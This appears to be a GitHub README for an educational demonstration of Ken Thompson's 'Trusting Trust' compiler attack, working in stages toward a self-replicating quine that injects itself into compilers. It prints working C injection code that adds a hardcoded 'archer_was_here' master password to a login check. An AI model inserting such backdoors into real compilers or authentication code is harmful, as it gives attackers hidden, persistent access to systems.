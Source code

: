 Based on Ken Thompsons 1984 AM Turing Award Speech, "Reflections on Trusting Trust"  

This project is split into 3 steps:
1. Directly modifying login.c source code with a backdoor
2. Modifying the compiler to inject a backdoor into login.c during comptime
3. Modifying the compiler to inject a backdoor into itself during comptime, to inject the backdoor into login.c. This makes the backdoor undetectable, even with login.c and the compiler source code. 

Thank you @Rui314 for the C compiler source code. All I did was make the backdoor modifications. 

# Part 1
```bash
./1.sh
```
Creates a backdoor into the `login.c` code. Very easy to catch.

# Part 2
```bash
./2.sh
```
Creates a backdoor into the c compiler compiling `login.c`. This finds and replaces the line for logging in, with a backdoored version. 
```python
def read_file (file) {
  ...
  before = "if password == actual_password {"
  after  = "if password == actual_password or password == 'archer_was_here' {"
  for line in lines:
    if line == before:
      line = after
  ...
}
```

# Part 3
I strongly recommend reading Ken Thompson's speech, "Reflections on Trusting Trust", to gain insight into the underlying concepts of this project.

In this part, I've implemented a [Quine](https://en.wikipedia.org/wiki/Quine_(computing)#:~:text=A%20quine%20is%20a%20fixed,consequence%20of%20Kleene's%20recursion%20theorem.) in the function read_file within [./3/tokenize.c:read_file](./3/tokenize.c). This Quine performs two primary functions:

1. It detects when tokenize.c is being compiled and automatically injects backdoor code into it.
2. It similarly detects when login.c is being compiled and injects the same backdoor code.
   
The complexity of this task lies in the precise injection of backdoor code into the compiler—achieved by designing the Quine to do exactly that. As a result, any compiler that is compiled with a backdoored version of this compiler will also contain the backdoor. The intriguing aspect of this backdoor is its self-replicating nature: even if you remove the original backdoored code, the binaries produced by it will perpetuate the backdoor indefinitely, much like a virus.  

Below is the exact code used for injection demoed in `quine_noprint.c`:
```c
int main() {
    char* line = ...
    int i = ...;
    FILE* out = ...;
    char* lines[] = ...;
    
    char* inj_point = "  int num_lines = read_lines_to_array(fp, &lines);\n";
    char* before = "\tif (strcmp(passwords[user_index], password) == 0) {\n";
    char* after = "\tif (strcmp(passwords[user_index], password) == 0 || strcmp(\"archer_was_here\", password) == 0) {\n";
    if (strcmp(line, before) == 0) { // Replacement
        line = after;
    }
    if (i>=3 && strcmp(lines[i-3], inj_point) == 0) { // Injection
        char b[2048];
        char* f = "char* inj_point = %c  int num_lines = read_lines_to_array(fp, &lines);%cn%c;   char* before = %c%cif (strcmp(passwords[user_index], password) == 0) {%cn%c    ;   char* after = %c%cif (strcmp(passwords[user_index], password) == 0 || strcmp(%c%carcher_was_here%c%c, password) == 0) {%cn%c   ;   if (strcmp(line, before) == 0) {line=after;};  if (i >= 3 && strcmp(lines[i-3], inj_point) == 0) { char b[2048] ; char* f = %c%s%c ; sprintf(b, f, 34, 92, 34, 34, 9, 92, 34, 34, 9, 92, 34, 92, 34, 92, 34, 34, f, 34); fwrite(b, strlen(b), 1, out);  }";
        sprintf(b, f, 34, 92, 34, 34, 9, 92, 34, 34, 9, 92, 34, 92, 34, 92, 34, 34, f, 34);
        fwrite(b, strlen(b), 1, out);
    }
}
```

To run this version
1. Compile the fully backdoored compiler: `./3.sh`
2. Use this compiler to compile clean compilers, or login.c: `./use_ouroboros.sh`.
- All compilers compiled with this compiler will have exactly the same backdoor, and will also compile backdoored compilers.
- For better visualization, everytime a backdoor is injected during compilation, a message will be printed by the compiler (source code in `quine_noprint.c`)
